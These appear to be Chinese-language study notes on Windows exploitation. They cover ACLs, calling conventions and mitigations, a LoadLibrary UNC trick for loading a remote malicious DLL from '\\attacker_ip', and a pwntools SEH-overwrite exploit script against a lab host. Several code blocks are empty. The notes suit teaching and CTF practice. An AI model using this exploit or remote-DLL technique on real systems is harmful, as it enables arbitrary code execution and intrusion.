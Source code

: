 # windows權限管理
Windows下，每個用戶的標識被稱為SID，而對象(文件、設備、內存區等)的權限管理由**安全性描述項(Security Descriptor, SD)**控制。

安全性描述項(Security Descriptor, SD)中包含owner、grout的SID、Discretionary ACL和system ACL。

**ACL(Access Control List, 存取控制表)**是用來控制對象訪問存取權限的列表，其中包含多個**ACE(Access Control Entry, 存取控制條目)**，每個ACE描述了一個用戶對於當前對象的權限。

在windows中，用戶可以使用`icacls`命令修改一個對象的ACL。
icacls採用微軟制定的**SDDL(Security Descriptor Definition Language,安全描述定義語言)**

通過`icacls`查看文件權限
```
PS C:\Users\islab\Desktop> icacls flag.txt
flag.txt NT AUTHORITY\SYSTEM:(I)(F)
         BUILTIN\Administrators:(I)(F)
         DESKTOP-3O0PPJI\islab:(I)(F)

已順利處理 1 個檔案; 0 個檔案處理失敗
```

可以看到有三個SID對flag.txt有完全存取的權限，嘗試刪除其中一個對於flag.txt的存取權限:
```
PS C:\Users\islab\Desktop> icacls flag.txt /inheritance:d
已處理的檔案: flag.txt
已順利處理 1 個檔案; 0 個檔案處理失敗

PS C:\Users\islab\Desktop> icacls flag.txt /remove islab
已處理的檔案: flag.txt
已順利處理 1 個檔案; 0 個檔案處理失敗

PS C:\Users\islab\Desktop> icacls flag.txt
flag.txt NT AUTHORITY\SYSTEM:(F)
         BUILTIN\Administrators:(F)

已順利處理 1 個檔案; 0 個檔案處理失敗
```

在修改文件的ACL時，若修改的ACE項是繼承的，要先去關閉其繼承屬性。ACL的繼承是windows特有的一種機制，若一個文件啟用的ACL繼承，則其ACL會繼承其父對象(本例中為flag.txt所在的目錄)ACL中的ACE。

# windows的呼叫約定(calling convention)
32bit的windows通常採用**__stdcall**的呼叫約定，參數由右到左的順序逐一被放入stack中，並且在呼叫完成後，由被呼叫的函式來清理這些參數，函數的返回值會放在eax中。    
64bit的windows通常採用**x64**的呼叫約定，其中前4個參數會被分別放入rcx、rdx、r8、r9中，更多的參數會存在stack上，返回值放在rax中。在這個呼叫約定下rax、rcx、rdx、r8、r9、r10、r11由呼叫方保存，rbx、rbp、rdi、rsi、rsp、r12、r13、r14、r15由被呼叫方保存。

# windows的漏洞緩解機制
## stack cookie    
windows與linux的stack cookie有不同的實現。例如:
```c
#include <cstdio>
#include <cstdlib>

int main(int argc, char* argv[]) {
    char name[100];

    printf("Name?: ");
    scanf("%s", name);
    printf("Hello, %s\n", name);
    return 0;
}
```

經過編譯器橫產生的組語如下:
```

```
可以看到，__security_cookie就是windows的stack cookie。注意，程序在將stack cookie放入stack前，程序還將其與rsp進行了XOR，這在某種程度上增強了保護程度，攻擊者需要同時知道當前stack top address和stack cookie才能夠進行stack overflow漏洞的利用。

## DEP
Data Execution Prevention，資料執行保護。與linux下的保護機制NX類似，將資料區的存保護屬性設為可讀可寫不可執行。這兩個機制都是為了防止攻擊者利用資料區域放置惡意程式碼，從而達到任意程式碼執行。

## CFG
Control Flow Guard, 控制流保護。是windows支持的一種比較新的保護機制。被保護的間接呼叫如下，每次進行間接呼叫前都會由**__guard_dispatch_icall_fptr**函式對function pointer進行檢查。在function pointer被修改到非法address時，程序會被異常終止。
```

```

## SEHOP、SafeSEH
SEH是windows底下特有的一種異常處理機制。在32bit的windows下，SEH的資料是一個單向link list且存在stack上。由於這些資料中包含SEH Handler的address，覆蓋SEH成為了攻擊早期windows以及其程序的常利用技巧，因此微軟在新版window中引入了SEHOP和SafeSEH這兩個緩解措施。SEHOP會檢測SEH link list的末尾是不是指向一個固定的SEH Handler，否則異常終止程序。SafeSEH會檢測當前使用的SEH Handler是否指向當前模塊的一個有效地址，否則異常終止程序。

## Heap Randomization
LFH(low-fragmentaion Heap)的隨機化。例如:
```c
#include <cstdio>
#include <cstdlib>
#include <Windows.h>

#define HALLOC(x) (HeapAlloc(GetProcessHeap(), HEAP_ZERO_MEMORY, (x)))

int main() {
    for(int i = 0; i < 20; i++) {
        printf("Alloc: %p\n", HALLOC(0x30));
    }
    return 0;
}
```
程序結果如下:
```

```
一般的內存分配器對於連續的申請會返回連續的地址，不過可以看到，分配到的地址定不是連續的，而且沒有規律可言。在LFH開啟的情況下，heap的分配是隨機的，使得攻擊者的利用更為困難。

# windows的PWN技巧
## 從heap上洩漏stack sddress
通常情況下，heap上是不會有stack上地址的，因為stack上的資料一般比heap上的資料存在時間更短。不過在windows下有一種特殊情況，導致heap上存有stack address: 在CRT初始化的過程中，由於使用了未初始化內存，導致一部分包含stack address的內容被複製到heap上。於是可以從heap上找到stack address，然後修改stack資料。

## LoadLibrary UNC 下載模塊
由於一般的windows Pwnable沒有辦法直接執行system彈shell，因此需要使用各種各樣的shellcode來完成想要的操作，但是這樣做相當麻煩，在測試shellcode的時候可能發生本地與遠端環境不同等情況，如果能呼叫LoadLibrary，工作量就能大大減輕。    
LoadLibrary是windows下用來下載DLL的function，由於其支持UNC Path，因此可以呼叫**LoadLibrary("\\attacker_ip\malicious.dll")**，讓程式下載遠端伺服器上攻擊者提供的DLL，從而達到執行任意程式執行。這樣的攻擊方式比執行shellcode更穩定。    
因此，win10中引入了**Disable Remote Image Loading**機制，若程式執行時開啟此項緩解措施，則無法使用UNC PATH下載遠端DLL。


exploit:
```py
from pwn import *

# context.log_level = 'debug'
context.arch = 'i386'

sh = remote('192.168.3.129', 1001)

def get_value(addr):
    sh.recvuntil('Do you want to know more?')
    sh.sendline('yes')
    sh.recvuntil('Where do you want to know')
    sh.sendline(str(addr))
    sh.recvuntil('value is ')
    return int(sh.recvline(), 16)

sh.recvuntil('stack address =')
result = sh.recvline()
stack_addr = int(result, 16)
log.success('stack_addr: ' + hex(stack_addr))
sh.recvuntil('main address =')
result = sh.recvline()
main_address = int(result, 16)
log.success('main_address: ' + hex(main_address))

security_cookie = get_value(main_address + 12116)
log.success('security_cookie: ' + hex(security_cookie))

# pause()
sh.sendline('n')
next_addr = stack_addr + 212
log.success('next_addr: ' + hex(next_addr))

SCOPETABLE = [
    0x0FFFFFFFE,
    0,
    0x0FFFFFFCC,
    0,
    0xFFFFFFFE,
    main_address + 733,
]

payload = 'a' * 16 + flat(SCOPETABLE).ljust(104 - 16, 'a') + p32((stack_addr + 156) ^ security_cookie) + 'c' * 32 + p32(next_addr) + p32(main_address + 944) + p32((stack_addr + 16) ^ security_cookie) + p32(0) + 'b' * 16
sh.sendline(payload)

sh.recvline()
sh.sendline('yes')
sh.recvuntil('Where do you want to know')
sh.sendline('0')

sh.interactive()

```